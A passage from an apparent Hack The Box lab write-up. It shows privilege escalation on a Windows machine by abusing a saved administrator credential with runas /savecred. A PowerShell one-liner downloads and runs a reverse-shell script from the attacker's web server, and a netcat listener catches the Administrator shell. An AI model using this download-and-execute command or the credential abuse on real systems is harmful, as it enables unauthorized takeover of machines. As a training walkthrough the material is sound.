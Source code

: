 As expected, there exists a saved credential for `administrator`.
Let's use it to spawn a reverse shell.
I prepared `Invoke-PowerShellTcp.ps1` and saved it as `shell.ps1`.

Let's open a web server to upload payload.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server                      
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.98 - - [07/Dec/2024 05:55:57] "GET /shell.ps1 HTTP/1.1" 200 -
```

Then, let's use `runas /savecred` to download and run the payload.

```powershell
C:\Users\security\Documents>runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.14:8000/shell.ps1')"
```

Then, reverse shell connection is established.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.98] 49165
Windows PowerShell running as user Administrator on ACCESS                  
Copyright (C) 2015 Microsoft Corporation. All rights reserved.              

PS C:\Windows\system32>whoami
access\administrator
```

I got `administrator`.

Another approach using `mimikatz` is illustrated in **0xdf's blog posting**.